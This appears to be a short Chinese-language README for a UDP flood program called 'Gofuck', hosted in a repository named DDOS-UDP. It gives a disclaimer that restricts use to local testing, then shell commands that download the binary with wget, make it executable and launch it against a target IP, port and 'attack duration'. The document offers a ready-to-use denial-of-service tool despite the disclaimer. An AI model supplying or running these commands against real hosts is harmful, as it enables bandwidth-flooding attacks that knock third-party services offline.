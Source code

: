 ### Gofuck声明：

- Gofuck是一个简单暴力的UDP发包程序，能快速利用全部带宽。
- 禁止将Gofuck用于违法活动，代码仅用于本地测试参考，如违规使用，责任自负。

### 使用方法：
```shell
// 下载程序
wget https://github.com/randycolin/DDOS-UDP/releases/download/v.1.0.0/Gofuck
// 赋予执行权限
chmod +x Gofuck
// 输入相应参数开始执行例如：./Gofuck 127.0.0.1 80 120
./Gofuck <IP地址> <端口> <攻击持续时间>
```
